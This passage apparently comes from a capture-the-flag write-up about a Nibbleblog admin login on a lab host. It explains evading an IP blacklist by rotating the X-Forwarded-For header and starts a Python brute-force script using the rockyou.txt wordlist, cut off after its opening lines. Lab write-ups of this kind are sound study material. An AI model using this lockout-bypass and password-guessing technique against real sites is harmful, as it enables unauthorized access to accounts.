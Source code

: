 ![](./IMG/19.png)
- So if I add X-Forwarded-For header with '10.10.10.2'

![](./IMG/20.png)
- The xml file will have one more record about '10.10.10.2'

![](./IMG/21.png)
- Now, it's code time, the main idea is using 'rockyou.txt' as password wordlist and change the X-Forwarded-For IP address everytime to avoid blacklist.
```
import requests 
import os 

url = 'http://10.129.228.104/nibbleblog/admin.php'
username = 'admin'
error = "Incorrect username or password."

def bruteCracking(username, url, error):
    IP0 = 0
```